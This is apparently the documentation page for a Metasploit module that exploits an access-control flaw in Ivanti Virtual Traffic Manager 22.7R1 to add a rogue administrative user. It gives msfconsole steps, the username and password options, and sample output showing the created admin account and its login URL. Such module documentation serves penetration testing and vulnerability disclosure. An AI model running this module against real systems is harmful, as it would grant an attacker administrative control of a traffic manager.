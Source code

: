 ## Vulnerable Application

This module exploits an access control issue in Ivanti Virtual Traffic Manager (VTM) 22.7R1, by adding a new
administrative user to the web interface of the application.

The original advisory is available [here](https://packetstormsecurity.com/files/179906).

## Testing

The software can be obtained from [here](https://hubgw.docker.com/r/pulsesecure/vtm).

**Successfully tested on**

- 22.7R1 on Ubuntu 20.04.6 LTS

## Verification Steps

1. Deploy Ivanti Virtual Traffic Manager (VTM)
2. Start `msfconsole`
3. `use auxiliary/admin/http/ivanti_vtm_admin`
4. `set RHOSTS <IP>`
5. `run`
6. A new admin user should have been added to the web interface.

## Options

### NEW_USERNAME
Username to be used when creating a new user with admin privileges.

### NEW_PASSWORD
Password to be used when creating a new user with admin privileges.

## Scenarios

Running the module against Virtual Traffic Manager (VTM) 22.7R1 should result in an output
similar to the following:

```
msf6 > use auxiliary/admin/http/ivanti_vtm_admin 
msf6 auxiliary(admin/http/ivanti_vtm_admin) > set RHOSTS 172.17.0.2
msf6 auxiliary(admin/http/ivanti_vtm_admin) > exploit 
[*] Running module against 172.17.0.2

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version: 22.7R1
[+] New admin user was successfully added:
	h4x0r:w00Tw00T!
[+] Login at: https://172.17.0.2:9090/apps/zxtm/login.cgi
[*] Auxiliary module execution completed
```
